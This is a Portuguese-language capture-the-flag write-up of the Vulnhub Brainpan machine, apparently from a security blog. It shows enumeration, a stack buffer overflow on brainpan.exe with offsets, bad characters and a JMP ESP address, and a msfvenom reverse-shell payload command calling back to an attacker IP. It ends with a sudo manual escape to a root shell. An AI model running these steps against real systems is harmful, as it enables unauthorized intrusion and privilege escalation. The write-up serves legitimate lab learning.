 ```yaml
---
title: Vulnhub - Brainpan
categories: [Vulnhub]
#tags: []
render_with_liquid: false
image: https://0xPurpl3john.github.io/assets/img/Vulnhub/brainpan/capa.png
---
```



## Link da Maquina: <https://www.vulnhub.com/entry/brainpan-1,51/>
---



## Scanning web and services
### Host Discovery

Inicialmente, foi realizado um escaneamento na rede em busca do IP da máquina alvo.

```bash
sudo nmap 10.0.2.1-255 -sn
```

![scan nmap -sn](/assets/img/Vulnhub/brainpan/scannmap.png)

### Port Discovery

Já com o IP alvo em mãos, foi utilizado o comando abaixo para obter mais informações a respeito das portas e serviços que estariam em funcionamento no alvo. O comando abaixo é dividido em duas partes, primeiramente ele realiza um escaneamento em todas as `65535 portas` existentes e as filtra, armazenando tudo na variável `ports` que é utilizada na segunda parte do comando.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.0.2.7 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.0.2.7
```

![Resultado scan nmap](/assets/img/Vulnhub/brainpan/resultnmap.png)

Como resultado foi obtido as portas `9999` com um serviço até então desconhecido denominado *”abyss?”* e `10000` utilizando um *SimpleTTPServer.* A partir dessa informação, deu-se início à enumeração das portas.

## Enumeration

### port 10000 - SimpleHTTPServer

Tendo em vista o total desconhecimento sobre o serviço da porta `9999`, foi iniciado a enumeração da porta `10000` e foi encontrado uma página onde o conteúdo inteiro presente é uma imagem.

![10.0.2.7:10000](/assets/img/Vulnhub/brainpan/web10000.png)

A partir disso foi utilizado a ferramenta **fuff** para realizar o fuzzing de diretórios no serviço. Como resultado foi encontrado o diretório `/bin` no destino: `[http://10.0.2.7:10000/bin](http://10.0.2.7:10000/bin)` 

```bash
ffuf -u http://10.0.2.7:10000/FUZZ -w /usr/share/wordlists/dirb/big.txt
```

![ffuf](/assets/img/Vulnhub/brainpan/ffuf.png)

### port 9999 - brainpan.exe

Dentro do diretório `/bin` foi encontrado o arquivo `brainpan.exe` que ao ser testado com a ferramenta **wine**, mostrou-se ser o serviço que estava funcionando na porta 9999, conforme apresentado nas figuras abaixo.

![conteudo dir /bin](/assets/img/Vulnhub/brainpan/dirbin.png)

![brainpan.exe](/assets/img/Vulnhub/brainpan/brainpan.png)

![teste brainpan.exe](/assets/img/Vulnhub/brainpan/testbrainpan.png)

> Foram feitas algumas tentativas de entradas de dados (senha) porém todas sem sucesso.
> 

Após, foram iniciados testes com quantidades diferentes de strings até que fosse possível quebrar o programa, de acordo com as imagens a seguir.

![python -c ‘print (”A” * 200)’](/assets/img/Vulnhub/brainpan/python-c.png)

![Resultado da inclusão de 200 A’s](/assets/img/Vulnhub/brainpan/result200a.png)

Como visto, utilizando 200 bytes o programa funcionou normalmente. Agora, utilizaremos 1000 bytes.

![python -c ‘print (”A” * 10000)’](/assets/img/Vulnhub/brainpan/print1000a.png)

Foi possível quebrar o programa, logo, não há tratamento para dados em excesso e com isso tentaremos realizar o *Buffer Overflow.*

## Buffer Overflow

Após observar como a aplicação se comporta através da ferramenta *gdb,* foi verificado que o espaço de armazenamento da aplicação era de aproximadamente 520 bytes, logo, utilizando o comando abaixo, foi gerado uma lista com strings únicas.

```bash
msf-pattern_create -l 530
```

![brainpan.exe buffer](/assets/img/Vulnhub/brainpan/brainpanbuffer.png)

Enviando essa string para a área de input do binário alvo, e, observando o que acontece com a ferramenta *Immunity Debugger,* foi possível obter o parâmetro EIP onde a aplicação quebra.

![Parâmetro EIP](/assets/img/Vulnhub/brainpan/parametroeip.png)

Utilizando os dados obtidos no EIP da aplicação e, utilizando o comando abaixo, é possível obter a posição do desejado *offset.*

```bash
msf-pattern_offset -l 530 -q 35724134
```

![offset 524](/assets/img/Vulnhub/brainpan/offset524.png)

Com o valor do *offset* em mãos, chega a hora de utilizar nosso script para termos certeza a respeito do domínio total do EIP. O script abaixo, envia, de maneira automática, um buffer composto de 524 strings “A” e mais 4 strings “B”. As strings “B” (42) deverão ser visualizadas nos registradores do EIP.

![fuzzer.py](/assets/img/Vulnhub/brainpan/fuzzerpy.png)

![evil buffer in work](/assets/img/Vulnhub/brainpan/evilbuffer.png)

![local das strings BBBB](/assets/img/Vulnhub/brainpan/stringsbbbb.png)

Conforme a figura acima, o EIP foi corretamente preenchido com as strings “B”. Com isso, nosso controle do EIP está garantido.

Para gerar uma lista com todos os *chars* é utilizado os seguintes comandos

- `!mona config -set workingfolder c:\monalogs\%p`
- `!mona bytearray`

Gerando a seguinte lista de chars

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

![fuzzer-2.py](/assets/img/Vulnhub/brainpan/fuzzer2py.png)

![!mona compare -f c:\monalogs\brainpan\bytearray.bin -a 0028F930](/assets/img/Vulnhub/brainpan/monacompare.png)

Com base na resposta do *mona* na figura acima, foi percebido que havia `\x00\` como um *badchar.* A partir disso, foram repetidos os passos anteriores porém, utilizando o parâmetro *-b* e o *badchar.*

Novamente foi feito o fuzzing para verificação de novos *badchars.* Não foi encontrado nenhum.

Tendo em vista que já encontramos e temos controle total do EIP, chegou a hora de buscar na aplicação o *opcode* JMP ESP.

> O *opcode* JMP ESP é responsável por realizar um SALTO para o *opcode* ESP.
> 

![opcode JMP ESP](/assets/img/Vulnhub/brainpan/opcodejmpesp.png)

Como visualizado na figura acima, foi encontrado o *opcode* JMP ESP e o mesmo possui os parâmetros 311712F3 e estes, devem ser passados, ao contrário, para nosso script no parâmetro *retn* conforme apresentado na figura abaixo.

![fuzzer-3.py](/assets/img/Vulnhub/brainpan/fuzzer3py.png)

No script `fuzzer-3.py` pode-se observar as variáveis “overflow, retn e padding”. Na variável “padding” está sendo enviado 400 strings “\xCC\” logo após o JMP ESP que está na variável “retn”.

![sending fuzzer-3.py](/assets/img/Vulnhub/brainpan/fuzzer3pysend.png)

![Tela Immunity Debbuger xCC](/assets/img/Vulnhub/brainpan/telaimmunity.png)

O próximo passo é criar o payload que será utilizado após a variável “padding” do nosso script. Para isso deve ser utilizado o comando abaixo.

> Lembrando de alterar os dados LHOST e LPORT
> 

```bash
sudo msfvenom -p linux/x86/shell_reverse_tcp -b '\x00' LHOST=10.0.2.6 LPORT=1337 -f python
```

![msfvenom payload](/assets/img/Vulnhub/brainpan/payload.png)

![fuzzer-4.py](/assets/img/Vulnhub/brainpan/fuzzer4py.png)

Executando o script da figura acima e utilizando o *nc* como o listener da porta 1337, entramos na máquina.

### Shell Obtido

![Shell Obtido!](/assets/img/Vulnhub/brainpan/shellobtido.png)

## Privilege Escalation

A partir do momento que foi obtido a shell na máquina alvo, foram realizados procedimentos padrão em busca da escalação de privilégios e o comando `sudo -l` nos trouxe como resposta que o usuário **puck** possuía permissão de executar o comando `/home/anansi/bin/anansi_util` como um usuário mais privilegiado, no caso, o root.

![/home/anansi/bin/anansi_util](/assets/img/Vulnhub/brainpan/anansi_util.png)

Executando o comando supracitado e entendendo seu funcionamento, foi possível observar que o mesmo possuía alguns parâmetros para executar. Dentre eles, o parâmetro **manual** chamou a atenção e ao utiliza-lo foi possível observar que havia a possibilidade de chamar outros comandos dentro do manual, conforme a figura abaixo.

![!/bin/sh](/assets/img/Vulnhub/brainpan/binsh.png)

Ao utilizar o comando `!/bin/sh` foi possível escalar privilégios.

![b.txt](/assets/img/Vulnhub/brainpan/btxt.png)

### Root obtido Brainpan!
